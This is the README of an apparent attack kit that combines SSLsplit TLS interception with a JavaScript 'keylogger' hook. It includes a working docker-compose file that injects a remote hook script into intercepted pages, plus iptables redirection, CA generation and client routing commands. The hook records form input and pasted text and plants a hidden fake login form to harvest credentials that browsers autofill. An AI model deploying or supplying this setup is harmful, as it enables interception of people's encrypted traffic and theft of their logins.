 # Web Keylogger
Injection of hidden form and extraction of user's credentials if stored in browser.

## SSLSplit
[SSLsplit][1] is a tool for man-in-the-middle attacks against SSL/TLS encrypted
network connections.

![Schema](docs/sslSplit.svg)

## Keylogger
* Web-service logging data from the Hook and visualizing them

### JS Hook
* Intercepts:
  * data submitted to forms,
  * pasted text into webpage,
  * extracts user's credential by fakeing login form --- if credentials are stored for the domain, browser (Chrome, Firefox) injects them into hidden form

## docker-compose.yml

```
version: '3.5'

services: 
  sslsplit:
    image: nesatfit/sslsplit:latest
    build:
      dockerfile: ./docker/sslsplit/Dockerfile
      context: ./sslsplit
    container_name: keylogger_sslsplit
    environment:
      - HOOK_HOST=$HOOK_HOST
      - HOOK_PORT_HTTP=$HOOK_PORT_HTTP
      - HOOK_PORT_HTTPS=$HOOK_PORT_HTTPS
    command:
      -k key/ca.key  
      -c key/ca.crt 
      -D 
      -K key/ca.key
      -P
      -l log/connections.log 
      -S log 
      -H "<script src='http://$HOOK_HOST:$HOOK_PORT_HTTP/hook' type='text/javascript'></script>" 
      -H "<script src='https://$HOOK_HOST:$HOOK_PORT_HTTPS/hook' type='text/javascript'></script>" 
      https 0.0.0.0 8443 
      http 0.0.0.0 8080
    network_mode: "host"
    volumes:
      - ./data:/data
    working_dir: /data
    restart: unless-stopped

  keylogger:
    image: nesatfit/keylogger:latest
    build:
      context: ./keyloggerServer
    container_name: keylogger
    command: --db=mongo --hook_host=$HOOK_HOST --hook_port_http $HOOK_PORT_HTTP --hook_port_https $HOOK_PORT_HTTPS 
    ports:
      - 8081:80
      - 8445:443  
      - 7000:7000
    restart: unless-stopped

  mongo:
    container_name: keylogger_mongo 
    image: mongo
    restart: unless-stopped
```

## Server Setup

```bash
$ mkdir -p data/{key,log}
$ vim docker-compose.yml # modify env variables to reflect your environment
$ openssl req -x509 -newkey rsa:2048 -nodes -keyout data/key/ca.key -out data/key/ca.crt -days 3650 -subj '/CN=EasyPi'
$ docker-compose up -d
```

```bash
# setup
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -N SSLSPLIT
iptables -t nat -A SSLSPLIT -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A SSLSPLIT -p tcp --dport 443 -j REDIRECT --to-ports 8443

# enable
iptables -t nat -A PREROUTING -j SSLSPLIT

# disable
iptables -t nat -D PREROUTING -j SSLSPLIT
```

## Client Setup

```bash
# ip route del to default via XXX.XXX.XXX.XXX
# ip route add default via YYY.YYY.YYY.YY

curl -k https://www.messenger.com
```

> ProTip: No warning dialog after importing `ca.crt` into system/browser.

## read more

- <https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/>

[1]: <http://www.roe.ch/SSLsplit>
